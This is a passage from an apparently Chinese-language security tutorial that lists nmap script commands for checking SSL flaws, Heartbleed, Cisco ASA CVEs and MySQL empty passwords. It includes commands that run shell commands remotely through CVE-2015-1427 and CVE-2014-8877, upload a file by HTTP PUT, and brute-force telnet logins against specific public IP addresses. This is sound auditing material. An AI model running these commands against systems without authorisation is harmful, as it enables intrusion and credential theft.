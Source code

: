 <p nodeIndex="76"><span nodeIndex="371">nmap -sV -p 443 --version-light --script ssl-poodle 218.19.141.16</span></p>
<div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2017-07-18-1825044491/5"/></div>
<p nodeIndex="78"><span nodeIndex="373"><strong nodeIndex="374">8 验证http 中开启了put 方法</strong></span></p>
<p nodeIndex="79"><span nodeIndex="375">nmap --script http-put --script-args http-put.url=/uploads/testput.txt,http-put.file=/root/put.txt 218.19.141.16</span></p>
<p nodeIndex="80"><span nodeIndex="376"><strong nodeIndex="377">9 验证mysql 匿名访问</strong></span></p>
<p nodeIndex="81"><span nodeIndex="378">nmap --script mysql-empty-password 203.195.139.153</span></p>
<div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2017-07-18-1825044491/6"/></div>
<p nodeIndex="83"><span nodeIndex="380"><strong nodeIndex="381">10 验证cve2015-1427 漏洞</strong>  <br nodeIndex="382">
nmap --script http-vuln-cve2015-1427 --script-args command=ls 203.195.139.153</span></p>
<p nodeIndex="84"><span nodeIndex="383"><strong nodeIndex="384">11 验证cve2014-8877漏洞</strong>  <br nodeIndex="385">
nmap -Pn --script http-vuln-cve2014-8877 --script-args http-vuln-cve2014-8877.cmd=dir,http-vuln-cve2014-8877.uri=/wordpress 42.96.170.128</span></p>
<p nodeIndex="85"><span nodeIndex="386">12 验证Cisco ASA中的CVE-2014-2126,CVE-2014-2127,CVE-2014-21,CVE-2014-2129漏洞</span></p>
<p nodeIndex="86"><span nodeIndex="387">nmap -p 443 --script http-vuln-cve2014-2126,http-vuln-cve2014-2127,http-vuln-cve2014-2128,http-vuln-cve2014-2129 203.195.139.153</span></p>
<p nodeIndex="87"><span nodeIndex="388"><strong nodeIndex="389">13验证低安全的 SSHv1，sslv2协议</strong></span></p>
<p nodeIndex="88"><span nodeIndex="390">nmap --script sshv1,sslv2 www.haoshangjia.com</span></p>
<p nodeIndex="89"><span nodeIndex="391"><strong nodeIndex="392">14 验证CVE-2014-0224 ssl-ccs-injection</strong>  <br nodeIndex="393">
nmap -Pn --script ssl-ccs-injection 203.195.139.153</span></p>
<p nodeIndex="90"><span nodeIndex="394"><strong nodeIndex="395">15 验证ssl-cert证书问题</strong></span></p>
<p nodeIndex="91"><span nodeIndex="396">nmap -v -v --script ssl-cert 203.195.139.153</span></p>
<p nodeIndex="92"><span nodeIndex="397"><strong nodeIndex="398">16验证SSL证书的有限期</strong></span></p>
<p nodeIndex="93"><span nodeIndex="399">nmap -Pn --script ssl-date www.haoshangjia.com</span></p>
<p nodeIndex="94"><span nodeIndex="400"><strong nodeIndex="401">17 验证CVE-2014-0160 OpenSSL Heartbleed bug</strong></span></p>
<p nodeIndex="95"><span nodeIndex="402">nmap -p 443 --script ssl-heartbleed,ssl-known-key 203.195.139.153</span></p>
<p nodeIndex="96"><span nodeIndex="403"><strong nodeIndex="404">18 验证 Debian OpenSSL keys</strong></span></p>
<p nodeIndex="97"><span nodeIndex="405">nmap -p 443 --script ssl-known-key 203.195.139.153</span></p>
<p nodeIndex="98"><span nodeIndex="406"><strong nodeIndex="407">18 验证弱加密SSL套件</strong></span></p>
<p nodeIndex="99"><span nodeIndex="408">nmap --script ssl-enum-ciphers 203.195.139.153</span></p>
<div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2017-07-18-1825044491/7"/></div>
<p nodeIndex="101"><span nodeIndex="410">20 验证CVE 2015-4000</span></p>
<p nodeIndex="102"><span nodeIndex="411">nmap --script ssl-dh-params www.haoshangjia.com</span></p>
<p nodeIndex="103"><span nodeIndex="412"><strong nodeIndex="413">21 验证多种SSL漏洞问题</strong></span></p>
<p nodeIndex="104"><span nodeIndex="414">nmap 203.195.139.153 --vv --script sshv1,ssl-ccs-injection,ssl-cert,ssl-date,ssl-dh-params,ssl-enum-ciphers,ssl-google-cert-catalog,ssl-heartbleed,ssl-known-key,sslv2  <br nodeIndex="415"></span></p>
<p nodeIndex="105"><span nodeIndex="416"><strong nodeIndex="417">22 在网络中检测某主机是否存在窃听他人流量</strong></span></p>
<p nodeIndex="106"><span nodeIndex="418">nmap --script sniffer-detect 10.10.167.5  <br nodeIndex="419"></span></p>
<p nodeIndex="107"><span nodeIndex="420"><strong nodeIndex="421">23 暴力破解telnet</strong></span></p>
<p nodeIndex="108"><span nodeIndex="422">nmap -p 23 --script telnet-brute --script-args userdb=myusers.lst,passdb=mypwds.lst --script-args telnet-brute.timeout=8s 203.195.139.153  <br nodeIndex="423"></span></p>
<p nodeIndex="109"><span nodeIndex="424"><strong nodeIndex="425">24 验证telnet是否支持加密</strong></span></p>
<p nodeIndex="110"><span nodeIndex="426">nmap --script telnet-encryption 203.195.139.153</span></p>